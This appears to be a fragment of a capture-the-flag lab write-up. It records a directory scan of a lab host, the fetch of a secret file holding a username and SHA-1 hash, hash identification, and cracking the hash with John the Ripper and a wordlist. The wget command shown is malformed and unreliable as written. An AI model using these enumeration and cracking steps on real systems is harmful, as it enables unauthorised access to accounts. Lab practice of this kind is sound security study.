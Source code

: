 ```
===============================================================
/.hta (Status: 403)
/.hta.txt (Status: 403)
/.htaccess (Status: 403)
/.htaccess.txt (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.txt (Status: 403)
/index.html (Status: 200)
/secret.txt (Status: 200)
===============================================================
2020/09/23 21:39:00 Finished
===============================================================
```

* Found: Directory: http://10.10.246.33/secret/
* Found: File: http://10.10.246.33/secret/secret.txt

```
wget -O http://10.10.246.33/secret/secret.txt

nyan:046385855FC9580393853D8E81F240B66FE9A7B8
```

* Found: Hash: nyan:046385855FC9580393853D8E81F240B66FE9A7B8

```
hashid 046385855FC9580393853D8E81F240B66FE9A7B8

Analyzing '046385855FC9580393853D8E81F240B66FE9A7B8'
[+] SHA-1 
[+] Double SHA-1 
[+] RIPEMD-160 
[+] Haval-160 
[+] Tiger-160 
[+] HAS-160 
[+] LinkedIn 
[+] Skein-256(160) 
[+] Skein-512(160)
```

```
john nyan.hash --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA1

Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA1 [SHA1 256/256 AVX2 8x])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
nyan             (?)
1g 0:00:00:01 DONE (2020-09-23 21:44) 0.6024g/s 2994Kp/s 2994Kc/s 2994KC/s nyan042077..nyamwaro
Use the "--show --format=Raw-SHA1" options to display all of the cracked passwords reliably
Session completed
```

* Crack: Hash: 046385855FC9580393853D8E81F240B66FE9A7B8:nyan
